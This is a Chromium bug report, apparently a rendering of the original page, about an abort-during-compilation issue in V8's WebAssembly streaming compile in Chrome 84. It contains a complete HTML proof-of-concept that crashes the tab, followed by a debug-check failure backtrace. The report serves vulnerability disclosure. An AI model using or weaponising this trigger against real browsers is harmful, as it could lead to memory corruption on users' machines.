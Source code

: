 <b>-------------------------</b>

<b>VULNERABILITY DETAILS</b>
when aborting compilation we're still holding a reference. 

<b>VERSION</b>
Chrome Version: 84.0.4147.125
Operating System: Windows 10 x64 but we suspect it impacts Mac/Linux as well 

<b>REPRODUCTION CASE</b>

File is attached, ideally run with debug version of Chrome. POC text

    <html>
    <head></head>
    <body>
        <script id="poc" type="javascript/worker">
            let code = [
                0x0, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00
            ];
            let wasm_blob = URL.createObjectURL(
                new Blob([new Uint8Array(code)], { type: "application/wasm" })
            );
            let controller = new AbortController();
            let signal = controller.signal;
            Object.defineProperty(WebAssembly.Module.prototype, 'then', {
                get: function () {
                    controller.abort();
                }
            });
            WebAssembly.compileStreaming(fetch(wasm_blob, { signal }));
        </script>
        <script>
            let blob = new Blob([document.getElementById("poc").textContent]);
            new Worker(window.URL.createObjectURL(blob));
        </script>
    </body>
</html>



<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State: 

#
# Fatal error in ../../v8/src/heap/heap-write-barrier-inl.h, line 208
# Debug check failed: !HasWeakHeapObjectTag(value).
#
#
#
#FailureMessage Object: 0000006E163FD6B8Backtrace:
        base::debug::CollectStackTrace [0x00007FF8BDFA9190+48] (D:\master\src\base\debug\stack_trace_win.cc:284)
        base::debug::StackTrace::StackTrace [0x00007FF8BDCAC9A0+80] (D:\master\src\base\debug\stack_trace.cc:206)
        base::debug::StackTrace::StackTrace [0x00007FF8BDCAC928+40] (D:\master\src\base\debug\stack_trace.cc:203)
        gin::`anonymous namespace'::PrintStackTrace [0x00007FF8C1129C31+65] (D:\master\src\gin\v8_platform.cc:45)
        V8_Fatal [0x00007FF852B6BA32+210] (D:\master\src\v8\src\base\logging.cc:166)
        v8::base::`anonymous namespace'::DefaultDcheckHandler [0x00007FF852B6B213+19] (D:\master\src\v8\src\base\logging.cc:57)